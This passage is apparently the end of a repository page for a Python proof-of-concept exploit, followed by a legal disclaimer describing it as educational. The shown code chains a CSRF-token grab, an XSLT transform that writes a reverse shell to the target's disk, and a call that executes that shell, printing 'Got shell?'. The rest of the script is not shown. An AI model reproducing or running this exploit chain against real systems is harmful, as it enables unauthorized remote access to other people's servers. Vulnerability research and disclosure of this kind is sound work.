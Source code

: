 ```python
        exit()

    print("[+] Job search ID obtained")

    print("[*] Grabbing new CSRF token", end="\r")
    if not get_cookie(session, f"{args.url}/en-US"):
        print("[-] Failed to obtain CSRF token")
        exit()

    print("[+] New CSRF token obtained")

    if not trigger_xslt_transform(session, args.url, jsid, text_value):
        print("[-] XSLT Transform failed")
        exit()

    print("[+] Successfully wrote reverse shell to disk")
    if not trigger_reverse_shell(session, args.url, args.username, jsid, csrf_token):
        print("[-] Failed to execute reverse shell")
        exit()

    print("[+] Reverse shell executed! Got shell?")

if __name__ == "__main__":
    main()
```


### Legal Disclaimer

The Proof of Concept (PoC) script provided serves solely for educational and research objectives. Its purpose is to showcase a specific vulnerability and aid in comprehending associated security risks.

Any use of this script for unauthorized activities, including but not limited to unauthorized system access, unauthorized testing, or other forms of misuse, is unequivocally forbidden.

The creators and contributors of this script disclaim all liability for the improper use or any damage or harm resulting from the use of this script. By utilizing this script, you consent to use it in a responsible manner and at your own risk.
